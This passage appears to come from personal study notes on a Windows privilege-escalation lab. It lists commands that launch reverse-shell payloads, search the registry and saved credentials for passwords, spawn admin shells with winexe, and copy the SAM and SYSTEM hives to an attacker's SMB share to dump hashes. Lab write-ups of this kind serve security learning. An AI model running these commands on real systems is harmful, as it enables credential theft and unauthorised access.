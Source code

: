 `msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

![[Pasted image 20251006224857.png]]

## Passwords - Registry
(For some reason sometimes the password does not get stored in the registry. If this is the case, use the following as the answer: password123)  

The registry can be searched for keys and values that contain the word "password":

`reg query HKLM /f password /t REG_SZ /s`

If you want to save some time, query this specific key to find **admin AutoLogon** credentials:

`reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"`

![[Pasted image 20251006225508.png]]

On Kali, use the winexe command to spawn a command prompt running with the admin privileges (update the password with the one you found): 

`winexe -U 'admin%password' //10.10.197.251 cmd.exe`

## Passwords - Saved Creds
List any saved credentials:

`cmdkey /list`

![[Pasted image 20251006230338.png]]

Note that credentials for the "admin" user are saved. If they aren't, run the C:\PrivEsc\savecred.bat script to refresh the saved credentials.

Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:

`runas /savecred /user:admin C:\PrivEsc\reverse.exe`

## Passwords - Security Account Manager (SAM)
The SAM and SYSTEM files can be used to extract user password hashes. This VM has insecurely stored backups of the SAM and SYSTEM files in the C:\Windows\Repair\ directory.

On kali, host files with SMB : 
`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali $(pwd)`

Transfer the **SAM and SYSTEM files to your Kali VM**:

`copy C:\Windows\Repair\SAM \\10.23.125.244\kali\   copy C:\Windows\Repair\SYSTEM \\10.23.125.244\kali\`

![[Pasted image 20251006231627.png]]

On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and **use it to dump out the hashes from the SAM and SYSTEM** files:
